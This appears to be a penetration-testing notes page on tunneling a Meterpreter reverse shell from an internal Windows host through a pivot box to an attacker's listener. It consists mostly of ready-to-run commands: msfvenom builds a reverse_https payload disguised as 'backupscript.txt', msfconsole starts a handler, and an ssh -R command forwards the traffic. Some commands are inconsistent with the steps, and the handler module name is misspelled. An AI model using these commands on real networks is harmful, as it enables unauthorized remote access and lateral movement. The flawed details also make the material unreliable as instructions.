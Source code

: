 -- -
Presented as a way to get a reverse shell from an internal host to your attack host that is not connected to the internal network directly. You will be tunneling the reverse shell through a pivot host you control. 
### Steps
1. Create payload for reverse shell from target internal host to the pivot host
2. File transfer payload to pivot host, then to the target internal host
3. Setup listener on attack host
4. Setup port forward from pivot box to attack box
5. Execute payload on target internal host, tunnel should send the shell back to your listener on your attackbox
### Execution
1. Create the payload on attack box:
```bash 
msfvenom -p windows/x64/meterpreter/reverse_https lhost=<attackbox ip> lport=8080 -f exe -o backupscript.txt
```
2. [[Dark Arts/File Transfer/~Home|File Transfer]] payload to pivot box, and then to the target internal host.
3. Setup attack box listener
```bash
msfconsole
use exploit/muli/handler
set lhost 0.0.0.0
set lport 8000
run
```
4. Setup remote port forward, from attack box
```bash
# -vN: verbose, no login prompt
# -R: Asks pivot box to listen on port 8080 and forward traffic to our attack host on port 8000
ssh -R <pivot host ip>:8080:0.0.0.0:8000 <user>@<pivot IP> -vN
```
5. Execute the payload on the internal target host, you should get a shell on your meterpreter listener. 